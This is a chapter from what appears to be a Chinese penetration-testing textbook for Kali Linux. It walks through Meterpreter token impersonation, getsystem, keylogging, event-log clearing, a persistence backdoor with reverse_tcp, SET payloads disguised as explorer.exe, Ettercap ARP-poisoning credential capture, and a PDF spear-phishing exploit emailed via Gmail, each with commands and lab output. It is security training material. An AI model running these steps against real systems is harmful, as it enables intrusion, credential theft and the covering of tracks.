


# 第七章　权限提升

权限提升就是将某个用户原来拥有的最低权限提高到最高。通常，我们获得访问的用户可能拥有最低的权限。但是，如果要进行渗透攻击，可能需要管理员账号的权限，所以就需要来提升权限。权限提升可以通过使用假冒令牌、本地权限提升和社会工程学等方法实现。本章将介绍提升用户权限的各种方法。

本章主要知识点如下：

*   使用假冒令牌；
*   本地权限提升攻击；
*   使用社会工程学工具包（SET）；
*   使用 SET 实施攻击。

# 7.1 使用假冒令牌

## 7.1 使用假冒令牌

使用假冒令牌可以假冒一个网络中的另一个用户进行各种操作，如提升用户权限、创建用户和组等。令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限。当一个用户登录 Windows 系统时，它被给定一个访问令牌作为它认证会话的一部分。例如，一个入侵用户可能需要以域管理员处理一个特定任务，当它使用令牌便可假冒域管理员进行工作。当它处理完任务时，通常会丢弃该令牌权限。这样，入侵者将利用这个弱点，来提升它的访问权限。本节将介绍在 Meterpreter Shell 下实现假冒令牌攻击。

### 7.1.1 工作机制

在假冒令牌攻击中需要使用了 Kerberos 协议。所以在使用假冒令牌前，先介绍下 Kerberos 协议。Kerberos 是一种网络认证协议，其设计目标是通过密钥系统为客户机/服务器应用程序提供强大的认证服务。Kerberos 工作机制如图 7.1 所示。


图 7.1 Kerberos 工作机制

客户端请求证书的过程如下所示：

（1）客户端向认证服务器（AS）发送请求，要求得到服务器的证书。

（2）AS 收到请求后，将包含客户端密钥的加密证书响应发送给客户端。该证书包括服务器 ticket（包括服务器密钥加密的客户机身份和一份会话密钥）和一个临时加密密钥（又称为会话密钥 session key）。当然，认证服务器会将该证书给服务器也发送一份，用来使服务器认证登录客户端身份。

（3）客户端将 ticket 传送到服务器上，服务器确认该客户端的话，便允许它登录服 务器。

（4）这样客户端登录成功后，攻击者就可以通过入侵服务器来获取到客户端的令牌。

### 7.1.2 使用假冒令牌

为了获取一个 Meterpreter Shell，用户必须使用 Metasploit 去攻击一台主机后才可成功建立 Meterpreter 会话。对于使用 Metasploit 攻击主机的方法，在第六章有详细介绍，这里就不再赘述。使用令牌假冒的具体操作步骤如下所示。

（1）启动 Meterpreter 会话。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > 
```

从输出的信息可以看到，成功启动了 Meterpreter 会话。

（2）使用 use incognito 命令加载 incognito 模块，然后列举出令牌。执行命令如下所示：

```
meterpreter > use incognito
Loading extension incognito…success. 
```

输出的信息表示成功加载 incognito 模块。然后可以通过查看帮助信息，了解列举令牌的命令。执行命令如下所示：


以上输出信息显示 incognito 模块下的所有命令。从输出的信息中可以看到列举当前有效的令牌命令是 list_tokens。执行以上命令后将输出大量信息，由于篇幅原因，部分内容使用省略号（……）取代了。

（3）列举所有令牌。执行命令如下所示：

```
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
     Call rev2self if primary process token is SYSTEM
Delegation Tokens Available
===============================================
AA-886OKJM26FSW\Test
Impersonation Tokens Available
===============================================
No tokens available 
```

从输出的信息可以看到分配的有效令牌有 AA-886OKJM26FSW\Test。其中 AA-886OKJM26FSW 表示目标系统的主机名，Test 表示登录的用户名。

（4）使用 impersonate_token 命令假冒 Test 用户进行攻击。执行命令如下所示：

```
meterpreter > impersonate_token AA-886OKJM26FSW\\Test
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user AA-886OKJM26FSW\Test 
```

从输出的信息中可以看到假冒 Test 用户成功。此时就可以通过提升自己的权限，在目标系统中进行任何操作了。

注意：在输入 HOSTNAME\USERNAME 的时候需要输入两个反斜杠（\）。

# 7.2 本地权限提升

## 7.2 本地权限提升

上一节介绍了窃取目标系统令牌，现在来介绍窃取令牌后如何提升在目标系统上的权限。提升本地权限可以使用户访问目标系统，并且进行其他的操作，如创建用户和组等。本节将介绍本地权限提升。

同样的实现本地权限提升，也需要连接到 Meterpreter 会话，具体操作就不再介绍。本地权限提升的具体操作步骤如下所示。

（1）启动 Meterpreter 会话。执行命令如下所示：

```
msf auxiliary(browser_autopwn) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > 
```

从输出的信息可以看到，成功启动了 Meterpreter 会话。

（2）使用 getsystem 命令提升本地权限。首先，查看该命令的帮助信息。执行命令如下所示：

```
meterpreter > getsystem -h
Usage: getsystem [options]
Attempt to elevate your privilege to that of local system.
OPTIONS:
  -h             Help Banner.
  -t <opt> The technique to use. (Default to '0').
           0 : All techniques available
           1 : Service - Named Pipe Impersonation (In Memory/Admin)
           2 : Service - Named Pipe Impersonation (Dropper/Admin)
           3 : Service - Token Duplication (In Memory/Admin) 
```

输出的信息显示了 getsystem 命令的语法格式、作用及选项等。此时就可以根据自己的需要，使用相应的选项来提升本地权限。

（3）使用 getsystem 命令提升本地权限。执行命令如下所示：

```
meterpreter > getsystem
…got system (via technique 1).
meterpreter > 
```

从输出的信息可以看到，自动选择了方法 1。此时该用户就拥有了目标系统中 Test 用户的权限了，然后就可以做其他的操作，如创建文件、创建用户和组等。如使用该用户在目标系统上 192.168.41.146 创建一个名为 bob 的用户。执行命令如下所示：

```
meterpreter > add_user bob 123456 -h 192.168.41.146 
```

执行以上命令后，可以在主机 192.168.41.146 上查看到创建的 bob 用户。

# 7.3 使用社会工程学工具包（SET）

## 7.3 使用社会工程学工具包（SET）

社会工程学工具包（SET）是一个开源的、Python 驱动的社会工程学渗透测试工具。这套工具包由 David Kenned 设计，而且已经成为业界部署实施社会工程学攻击的标准。SET 利用人们的好奇心、信任、贪婪及一些愚蠢的错误，攻击人们自身存在的弱点。使用 SET 可以传递攻击载荷到目标系统，收集目标系统数据，创建持久后门，进行中间人攻击等。本节将介绍社会工程学工具包的使用。

### 7.3.1 启动社会工程学工具包

使用社会工程学工具包之前，需要启动该工具。具体操作步骤如下所示。

（1）启动 SET。在终端执行如下所示的命令：

```
root@kali:~# setoolkit 
```

或者在桌面上依次选择“应用程序”|Kali Linux|“漏洞利用工具集”|Social Engineering Toolkit|setoolkit 命令，将自动打开一个显示 setoolkit 命令运行的终端。

执行以上命令后，将输出如下所示的信息：

```
[-] New set_config.py file generated on: 2014-05-06 18:05:41.766123
[-] Verifying configuration update…
[*] Update verified, config timestamp is: 2014-05-06 18:05:41.766123
[*] SET is using the new config, no need to restart
Copyright 2013, The Social-Engineer Toolkit (SET) by TrustedSec, LLC
All rights reserved.
Redistribution and use in source and binary forms, with or without modification, are permitted provided that the following conditions are met:
  * Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
  * Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer
   in the documentation and/or other materials provided with the distribution.
  * Neither the name of Social-Engineer Toolkit nor the names of its contributors may be used to endorse or promote products derived from
   this software without specific prior written permission.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT
OWNER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT
LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
The above licensing was taken from the BSD licensing and is applied to Social-Engineer Toolkit as well.
Note that the Social-Engineer Toolkit is provided as is, and is a royalty free open-source application.
Feel free to modify, use, change, market, do whatever you want with it as long as you give the appropriate credit where credit
is due (which means giving the authors the credit they deserve for writing it). Also note that by using this software, if you ever
see the creator of SET in a bar, you should give him a hug and buy him a beer. Hug must last at least 5 seconds. Author
holds the right to refuse the hug or the beer.
The Social-Engineer Toolkit is designed purely for good and not evil. If you are planning on using this tool for malicious purposes that are
not authorized by the company you are performing assessments for, you are violating the terms of service and license of this toolset. By hitting
yes (only one time), you agree to the terms of service and that you will only use this tool for lawful purposes only.
Do you agree to the terms of service [y/n]: 
```

输出的信息详细的介绍了 SET。该信息在第一次运行时，才会显示。在该界面接受这部分信息后，才可进行其他操作。此时输入 y，将显示如下所示的信息：


以上显示了社会工程学工具包的创建者、版本、代号及菜单信息。此时可以根据自己的需要，选择相应的编号进行操作。

（2）这里选择攻击社会工程学，在菜单中的编号为 1，所以在 set>后面输入 1，将显示如下所示的信息：

```
set> 1
     Welcome to the Social-Engineer Toolkit (SET).
     The one stop shop for all of your SE needs.
   Join us on irc.freenode.net in channel #setoolkit
  The Social-Engineer Toolkit is a product of TrustedSec.
           Visit: https://www.trustedsec.com
Select from the menu:
  1) Spear-Phishing Attack Vectors
  2) Website Attack Vectors
  3) Infectious Media Generator
  4) Create a Payload and Listener
  5) Mass Mailer Attack
  6) Arduino-Based Attack Vector
  7) SMS Spoofing Attack Vector
  8) Wireless Access Point Attack Vector
  9) QRCode Generator Attack Vector
 10) Powershell Attack Vectors
 11) Third Party Modules
 99) Return back to the main menu.
set> 
```

以上信息显示了攻击社会工程学的菜单选项，这时就可以选择攻击工程学的类型，然后进行攻击。

（3）这里选择创建一个攻击载荷和监听器，输入编号 4，如下所示：


输出的信息显示了可生成的所有攻击载荷，此时根据自己的目标系统选择相应的攻击载荷。

（4）本例中攻击的目标系统为 Windows XP 32 位，所以这里选择编号 2。如下所示：

```
set:payloads> 2
Select one of the below, 'backdoored executable' is typically the best. However,
most still get picked up by AV. You may need to do additional packing/crypting
in order to get around basic AV detection.
  1) shikata_ga_nai
  2) No Encoding
  3) Multi-Encoder
  4) Backdoored Executable 
```

输出的信息显示了获取基于 AV 攻击的几种方法。

（5）这里选择第 4 种，输入编号 4，如下所示：


输出的信息显示了设置社会工程学的一个过程，在该过程中将指定的 IP 地址与端口进行了绑定，并且打开了一个 handler。这里将 IP 地址与端口进行绑定，是因为一个主机上可能存在多个网卡，但是端口号是不变的。这样启动监听器后攻击主机将等待被渗透攻击的系统来连接，并负责处理这些网络连接。

### 7.3.2 传递攻击载荷给目标系统

攻击载荷（Payload）指的是用户期望目标系统在被渗透攻击之后执行的代码。在 Metasploit 框架中可以自由地选择、传送和植入。例如，反弹式 Shell 是一种从目标主机到攻击主机创建网络连接，并提供命令行 Shell 的攻击载荷，而 Bind Shell 攻击载荷则在目标系统上将命令行 Shell 绑定到一个打开的监听端口，攻击者可以连接这些端口来取得 Shell 交互。攻击载荷也可能是简单的在目标系统上执行一些命令，如添加用户账号等。下面将介绍创建攻击载荷给目标系统的方法。

传递攻击载荷给目标系统。具体操作步骤如下所示。

（1）社会工程学工具默认安装在/usr/share/set 下，在该目录中有一个 EXE 文件，名为 payload.exe。在渗透测试时为了避免被目标主机用户发现，建议修改该文件名，然后再发送给其他人。发送给其他人的方法很多，如邮件和存储在优盘等。首先切换到/usr/share/set 目录中，查看该目录下的文件。执行命令如下所示：



从以上内容中可以看到有一个名为 payload.exe 的文件。接下来可以修改该文件的名为 explorer.exe，然后发送给其他人。

（2）修改 payload.exe 文件名。执行命令如下所示：


从以上内容可以看到，目前只有一个名为 explorer.exe 文件。

（3）将该文件传递给其他人。如果使用邮件的形式传递，需要将该文件进行压缩。因为邮件不支持发送 EXE 文件。可以使用 ZIP 命令压缩该文件，如下所示：

```
root@kali:/usr/share/set# zip healthfiles explorer.exe
 adding: explorer.exe (deflated 88%) 
```

从输入内容可以看到，explorer.exe 文件被成功压缩。此时，就可以通过邮件的形式发送给其他人。当该内容被目标系统中的用户打开后，将会与攻击者建立一个活跃的会话。如下所示：

```
msf exploit(handler) >
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Meterpreter session 1 opened (192.168.41.234:443 -> 192.168.41.146:2126) at 2014-05-06 19:25:43 +0800 
```

看到以上内容，表示目标系统与攻击者成功建立了会话。现在，攻击者就可以在目标系统上做自己想要做的事。

### 7.3.3 收集目标系统数据

在前面介绍了将攻击载荷传递给目标系统，并成功建立会话。当成功建立会话后，攻击者可以从目标系统中收集其数据。收集目标系统的数据，使用户尽可能使用这些信息做进一步渗透攻击。下面将介绍收集目标系统的数据。收集目标系统数据的具体操作步骤如下所示。

（1）激活 Meterpreter 会话。执行命令如下所示：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1… 
```

（2）开启键盘记录器。执行命令如下所示：

```
meterpreter > keyscan_start
Starting the keystroke sniffer… 
```

（3）收集目标系统中的数据。执行命令如下所示：

```
meterpreter > keyscan_dump
Dumping captured keystrokes…
 <Return> <Return> <Return> <N1> <Return> 2 <Return> 34 
```

从输出的信息可以看到，目标系统执行过回车键、输入了数字 1、2 和 34 等。

### 7.3.4 清除踪迹

当攻击者入侵目标系统后，做的任何操作都可能会被记录到目标系统的日志文件中。为了不被目标系统所发现，清除踪迹是非常重要的工作。因为如果被发现，可能带来很大的麻烦。现在用户不用担心这个问题了，因为 Metasploit 提供了一种方法可以很容易的来清除所有踪迹。下面将介绍使用 Metasploit 清除踪迹的方法。使用 Metasploit 清除踪迹的具体操作步骤如下所示。

（1）激活 Meterpreter 会话。执行命令如下所示：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1… 
```

（2）在 Metasploit 中的 irb 命令可以清除踪迹。执行命令如下所示：

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>> 
```

输出的信息中看到>>提示符，表示成功运行了 irb 命令。

（3）设置想要删除的日志。常用的日志选项如下所示：

*   log = client.sys.eventlog.open('system')；
*   log = client.sys.eventlog.open('security')；
*   log = client.sys.eventlog.open('application')；
*   log = client.sys.eventlog.open('directory service')；
*   log = client.sys.eventlog.open('dns server')；
*   log = client.sys.eventlog.open('file replication service')。

这里清除所有日志。执行命令如下所示：

```
>> log = client.sys.eventlog.open('system')
>> log = client.sys.eventlog.open('security')
>> log = client.sys.eventlog.open('application')
>> log = client.sys.eventlog.open('directory service')
>> log = client.sys.eventlog.open('dns server')
>> log = client.sys.eventlog.open('file replication service') 
```

执行以上命令后，表示指定了要清除的日志。接下来需要执行 log.clear 命令才可以清除日志文件。执行命令如下所示：

```
>> log.clear 
```

执行以上命令后，将会隐藏用户的踪迹。

### 7.3.5 创建持久后门

当成功获取目标系统的访问权限后，需要寻找方法来恢复与目标主机的连接，而无需再进入目标系统。如果目标用户破坏了该连接，例如重新启动计算机，此时使用后门将允许自动重新与目标系统建立连接。为了后续渗透方便，所以需要创建一个后门。这样，即使连接被中断，也不会影响工作。下面将介绍创建持久后门。创建持久后门的具体操作步骤如下所示。

（1）激活 Meterpreter 会话。执行命令如下所示：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > 
```

（2）创建持久后门之前，先查看下它的帮助文件。执行命令如下所示：


以上信息显示了持久后门的一些选项。使用不同的选项，来设置后门。

（3）创建一个持久后门。执行命令如下所示：

```
meterpreter > run persistence -U -A -i 10 - 8090 -r 192.168.41.234
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/
AA-886OKJM26FSW_20140507.2857/AA-886OKJM26FSW_20140507.2857.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.41.234 LPORT=4444
[*] Persistent agent script is 148405 bytes long
[+] Persistent Script written to C:\DOCUME~1\Test\LOCALS~1\Temp\IzXBdJvcpnD.vbs
[*] Starting connection handler at port 4444 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\DOCUME~1\Test\LOCALS~1\Temp\IzXBdJvcpnD.vbs
[+] Agent executed with PID 1612
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\
CurrentVersion\Run\mERugsIe
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\
CurrentVersion\Run\mERugsIe 
```

输出的信息显示了创建后门的一个过程。在以上信息中可以看到，在目标系统中创建了一个持久脚本，保存在 C:\DOCUME~1\Test\LOCALS~1\Temp\IzXBdJvcpnD.vbs。并且，该脚本会自动在目标主机上运行，此时将会建立第二个 Meterpreter 会话。如下所示：

```
meterpreter > [*] Meterpreter session 2 opened (192.168.41.234:443 -> 192.168.41.146:1032) at 2014-05-07 16:25:47 +0800 
```

看到以上的输出信息，表示该持久后门已创建成功。

### 7.3.6 中间人攻击（MITM）

中间人攻击（Man in the Middle Attack，简称“MITM 攻击”）是一种间接的入侵攻击。这种攻击模式是通过各种技术手段，将受入侵者控制的一台计算机虚拟放置在网络连接中的两台通信计算机之间，这台计算机就称为“中间人”。下面将介绍使用 Ettercap 工具实现中间人攻击。

1\. 存在的漏洞

前面介绍了中间人攻击是通过使用各种技术手段对目标主机进行攻击的。主机既然被攻击，则说明在传输数据的过程中存在有漏洞。接下来就分析一下所存在的漏洞。

当主机之间进行通信时，通过封装数据包进而转发到目标主机上。转发的数据包中包括源 IP 地址、目标 IP 地址及 MAC 地址。但是当主机在自己的缓存表中找不到目标主机的地址时，它会发送 ARP 广播，在此过程中就可能被其他攻击者冒充目标主机。

2\. ARP 欺骗原理

实施中间人攻击时，攻击者常考虑的方式是 ARP 欺骗或 DNS 欺骗等。下面以常见 ARP 欺骗为例，分别介绍一下 ARP 欺骗原理。

一般情况下，ARP 欺骗并不是使网络无法正常通信，而是通过冒充网关或其他主机使得到达网关或主机的数据流通过攻击主机进行转发。通过转发流量可以对流量进行控制和查看，从而控制流量或得到机密信息。ARP 欺骗主机的流程如图 7.2 所示。

如图 7.2 所示，当主机 A 和主机 B 之间通信时，如果主机 A 在自己的 ARP 缓存表中没有找到主机 B 的 MAC 地址时，主机 A 将会向整个局域网中所有计算机发送 ARP 广播，广播后整个局域网中的计算机都收到了该数据。这时候，主机 C 响应主机 A，说我是主机 B，我的 MAC 地址是 XX-XX-XX-XX-XX-XX，主机 A 收到地址后就会重新更新自己的缓冲表。当主机 A 再次与主机 B 通信时，该数据将被转发到攻击主机（主机 C）上，则该数据流会经过主机 C 转发到主机 B。


图 7.2 ARP 欺骗主机

3\. 中间人攻击

实现中间人攻击分为两个阶段。第一是通过某种手段去攻击一台计算机；第二是欺骗主机。这两个阶段工作工程如图 7.3 和图 7.4 所示。

第一阶段：


图 7.3 ARP 注入攻击

在该阶段主机 B 通过 ARP 注入攻击的方法以实现 ARP 欺骗，通过 ARP 欺骗的方法控制主机 A 与其他主机间的流量及机密信息。

第二阶段：

在第一个阶段攻击成功后，主机 B 就可以在这个网络中使用中间人的身份，转发或查看主机 A 和其他主机间的数据流，如图 7.4 所示。


图 7.4 中间人攻击机制

（1）在这个局域网中当主机 A 向主机 C 发送请求，此时该数据将被发送到主机 B 上。

（2）主机 A 发送给主机 C 的数据流将会经主机 B 转发到主机 C 上。

（3）主机 C 收到数据以为是主机 A 直接发送的。此时主机 C 将响应主机 A 的请求，同样的该数据流将会被主机 B 转发到主机 A 上。

（4）主机 A 收到响应后，将登录主机 C。这样主机 A 登录时的用户名及密码，将会被主机 B 查看到。

使用 Ettercap 工具实现中间人攻击。具体操作步骤如下所示。

（1）启动 Ettercap 工具。执行命令如下所示：

```
root@kali:~# ettercap -G 
```

执行以上命令后，将显示如图 7.5 所示的界面。


图 7.5 Ettercap 启动界面

（2）该界面是 Ettercap 工具的初始界面。接下来通过抓包的方法实现中间人攻击。在菜单栏中依次选择 Sniff|Unified sniffing 命令或按下 Shift+U 组合键，将显示如图 7.6 所示的界面。


图 7.6 启动嗅探

（3）在该界面单击 Unified sniffing 命令后，将显示如图 7.7 所示的界面。


图 7.7 选择接口

（4）在该界面选择网络接口。这里选择 eth0，然后单击“确定”按钮，将显示如图 7.8 所示的界面。


图 7.8 启动接口界面

（5）启动接口后，就可以扫描所有的主机了。在菜单栏中依次选择 Hosts|Scan for hosts 命令或按下 Ctrl+S 组合键，如图 7.9 所示。


图 7.9 启动扫描主机

（6）在该界面单击 Scan for hosts 命令后，将显示如图 7.10 所示的界面。


图 7.10 扫描主机界面

（7）从该界面输出的信息可以看到共扫描到五台主机。如果要查看扫描到主机的信息，在菜单栏中依次选择 Hosts|Hosts list 命令或按下 H 键，如图 7.11 所示。


图 7.11 打开主机列表

（8）在该界面单击 Hosts list 命令后，将显示如图 7.12 所示的界面。


图 7.12 扫描到的所有主机

（9）该界面显示了扫描到的五台主机的 IP 地址和 MAC 地址。在该界面选择其中一台主机，作为目标系统。这里选择 192.168.41.151 主机，然后单击 Add to Target 1 按钮。添加目标系统后开始嗅探数据包，在菜单栏中依次选择 Start|Start sniffing 命令或按下 Ctrl+W 组合键，如图 7.13 所示。



图 7.13 开始扫描

（10）启动嗅探后，通过使用 ARP 注入攻击的方法获取到目标系统的重要信息。启动 ARP 注入攻击，在菜单栏中依次选择 Mitm|Arp poisonig…命令，如图 7.14 所示。


图 7.14 Arp 注入攻击图

（11）单击 Arp poisonig 命令后，将显示如图 7.15 所示的界面。在该界面选择攻击的选项，这里选择 Sniff remote connections。然后单击“确定”按钮，将显示如图 7.16 所示的界面。


图 7.15 攻击选项


图 7.16 攻击界面

（12）此时，当某个用户登录 192.168.41.151 主机时，它的敏感信息将会被传递给攻击者。本例中捕获到的敏感信息如图 7.17 所示。


图 7.17 捕获到的敏感信息

（13）从该界面可以看到，有用户登录 192.168.41.151 主机的 FTP 服务器了。其用户名为 anonymous，密码为 123456。获取这些信息后停止嗅探，在菜单栏中依次单击 Start|Stop sniffing 命令，如图 7.18 所示。


图 7.18 停止嗅探

（14）停止嗅探后，还需要停止中间人攻击。在菜单栏中依次单击 Mitm|Stop mitm attack(s)命令，将显示如图 7.19 所示的界面。


图 7.19 停止中间人攻击

（15）在该界面单击“确定”按钮，这样就成功的完成了中间人攻击。

# 7.4 使用 SET 实施攻击

## 7.4 使用 SET 实施攻击

前面介绍了社会工程学工具包（SET）的简单使用。为了能帮助用户更容易的理解社会工程学的强大功能。本节将介绍使用社会工程学工具包实施各种攻击。

### 7.4.1 针对性钓鱼攻击向量

针对性钓鱼攻击向量通过构造特殊文件格式的漏洞进行渗透攻击，如利用 Adobe Reader 8.1.0（PDF 阅读器）的漏洞。实现钓鱼攻击向量主要通过发送邮件附件的方式，将包含渗透代码的文件发送到目标主机。当目标主机的用户打开邮件附件时，目标主机就会被攻陷和控制。

SET 使用简单邮件管理协议（SMTP）的开放代理（匿名的或者需认证的）、Gmail 和 Sendmail 来发送邮件。SET 同时也使用标准电子邮件和基于 HTML 格式的电子邮件来发动钓鱼攻击。

【实例 7-1】使用 SET 实现钓鱼攻击向量，本例中通过发送存在渗透代码的 PDF 格式文件到目标主机。具体操作步骤如下所示。

（1）启动社会工程学。执行命令如下所示：


（2）在以上菜单中选择社会工程学，编号为 1，如下所示：


（3）在以上菜单中选择攻击类型。这里选择钓鱼攻击向量，编号为 1，如下所示：

```
set> 1
 The Spearphishing module allows you to specially craft email messages and send
 them to a large (or small) number of people with attached fileformat malicious
 payloads. If you want to spoof your email address, be sure "Sendmail" is in-
 stalled (apt-get install sendmail) and change the config/set_config SENDMAIL=OFF
 flag to SENDMAIL=ON.
There are two options, one is getting your feet wet and letting SET do
 everything for you (option 1), the second is to create your own FileFormat
 payload and use it in your own attack. Either way, good luck and enjoy!
  1) Perform a Mass Email Attack
  2) Create a FileFormat Payload
  3) Create a Social-Engineering Template
 99) Return to Main Menu 
```

以上输出的信息显示了钓鱼攻击向量中可用的工具载荷。

（4）这里选择大规模电子邮件攻击，编号为 1，如下所示：

```
set:phishing>1
Select the file format exploit you want.
 The default is the PDF embedded EXE.
   ********** PAYLOADS **********
  1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)
  2) SET Custom Written Document UNC LM SMB Capture Attack
  3) Microsoft Windows CreateSizedDIBSECTION Stack Buffer Overflow
  4) Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)
  5) Adobe Flash Player "Button" Remote Code Execution
  6) Adobe CoolType SING Table "uniqueName" Overflow
  7) Adobe Flash Player "newfunction" Invalid Pointer Use
  8) Adobe Collab.collectEmailInfo Buffer Overflow
  9) Adobe Collab.getIcon Buffer Overflow
 10) Adobe JBIG2Decode Memory Corruption Exploit
 11) Adobe PDF Embedded EXE Social Engineering
 12) Adobe util.printf() Buffer Overflow
 13) Custom EXE to VBA (sent via RAR) (RAR required)
 14) Adobe U3D CLODProgressiveMeshDeclaration Array Overrun
 15) Adobe PDF Embedded EXE Social Engineering (NOJS)
 16) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow
 17) Apple QuickTime PICT PnSize Buffer Overflow
 18) Nuance PDF Reader v6.0 Launch Stack Buffer Overflow
 19) Adobe Reader u3D Memory Corruption Vulnerability
 20) MSCOMCTL ActiveX Buffer Overflow (ms12-027)
set:payloads>8 
```

输出的信息显示了钓鱼攻击向量中可以使用的文件格式，默认是 PDF 格式。

（5）这里利用 Abobe PDF 的 Collab.collectEmaillnfo 漏洞，所以选择编号 8，如下所示：


以上信息显示了攻击的方式。

（6）这里选择第 2 个模块，如下所示：

```
set:payloads>2
set> IP address for the payload listener:192.168.41.156   #设置攻击主机的地址
set:payloads> Port to connect back on [443]:   #设置攻击主机的端口号
[-] Defaulting to port 443…
[-] Generating fileformat exploit…
[*] Payload creation complete.
[*] All payloads get sent to the /root/.set/template.pdf directory
[-] As an added bonus, use the file-format creator in SET to create your attachment.
  Right now the attachment will be imported with filename of'template.
  whatever'
  Do you want to rename the file?
  example Enter the new filename: moo.pdf
  1\. Keep the filename, I don't care.
  2\. Rename the file, I want to be cool. 
```

从以上输出信息中，可以看到攻击载荷创建完成。所有攻击载荷保存在/root/.set/中，文件名为 template.pdf。

（7）这里选择是否重命名该文件。这里使用默认的 PDF 文件 template.pdf，输入编号 1，如下所示：

```
set:phishing>1
[*] Keeping the filename and moving on.
    Social Engineer Toolkit Mass E-Mailer
    There are two options on the mass e-mailer, the first would
    be to send an email to one individual person. The second option
    will allow you to import a list and send it to as many people as
    you want within that list.
    What do you want to do:
    1\. E-Mail Attack Single Email Address
    2\. E-Mail Attack Mass Mailer
    99\. Return to main menu. 
```

输出信息显示了邮件攻击的方式。

（8）这里选择针对单一邮件地址进行攻击，输入编号 1，如下所示：

```
set:phishing>1
  Do you want to use a predefined template or craft
  a one time email template.
  1\. Pre-Defined Template
  2\. One-Time Use Email Template 
```

输出的信息提示是否要使用一个预先定义的模块。SET 允许攻击者创建不同的模板，并且在使用时支持动态导入。

（9）这里使用预先定义的模块，输入编号 1，如下所示：

```
set:phishing>1
[-] Available templates:
1: Have you seen this?
2: How long has it been?
3: Strange internet usage from your computer
4: Status Report
5: New Update
6: Computer Issue
7: Dan Brown's Angels & Demons
8: Order Confirmation
9: WOAAAA!!!!!!!!!! This is crazy…
10: Baby Pics 
```

输出的信息显示了所有可用的模块。

（10）这里选择使用预先定义的 SET 邮件模板 Status Report，输入编号 4，如下所示：

```
set:phishing>4
set:phishing> Send email to:********@126.com   #设置发送邮件的目的地址
 1\. Use a gmail Account for your email attack.
 2\. Use your own server or open relay 
```

输出信息显示了给目标主机发送地址的方法。

（11）这里选择使用 Gmail 邮箱账号，输入编号 1，如下所示：

```
set:phishing>1
set:phishing> Your gmail email address:***********@gmail.com #输入 Gmail 邮件账户
set:phishing> The FROM NAME user will see: :
Email password:   #输入邮箱密码
set:phishing> Flag this message/s as high priority? [yes|no]:yes
[*] SET has finished delivering the emails
set:phishing> Setup a listener [yes|no]: 
```

从输出信息中，可以看到 SET 传递邮件设置完成。此时就可以使用该 Gmail 账户，给输入的目的邮件地址（********@126.com）发送恶意文件。最后，提示是否设置一个监听。

（12）这里设置一个监听，用来监听攻击载荷反弹连接。当 SET 启动 Metasploit 时，它已经配置了所有必需的选项，将开始处理攻击主机的 IP 反向连接到 443 端口，如下所示：


输出的信息显示了监听攻击载荷的信息。当目标主机打开发送的恶意邮件时，将会自动的连接到攻击主机 192.168.41.156:443。

此时攻击主机可以将前面创建的 template.pdf 文件，通过电子邮件发送给目标。当目标用户打开它并认为是合法的 PDF 文件时，此时目标主机被立即控制。在攻击主机上，将看到如下所示的信息：

```
msf exploit(handler) >
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Meterpreter session 1 opened (192.168.41.156:443 -> 192.168.41.146:1083) at 2014-06-07 11:17:11 +0800 
```

输出的信息表示，被攻击主机的地址是 192.168.41.146。此时，攻击主机与目标主机成功的建立了一个会话，如下所示：


从输出的信息中，可以看到有一个会话。该会话中，描述了目标主机的相关信息。如操作系统类型为 win32、主机名为 AA-886OKJM26FSW、登录的用户为 Test 及主机 IP 地址。激活该会话后，就可以在目标主机上进行任何操作。也就说相当于控制了目标主机。激活会话，如下所示：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > 
```

从输出的信息中可以看到会话 1 被成功激活。此时就可以在 meterpreter 命令行下，执行各种命令。如登录目标主机的 Shell，如下所示：

```
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 792 created.
Channel 2 created.
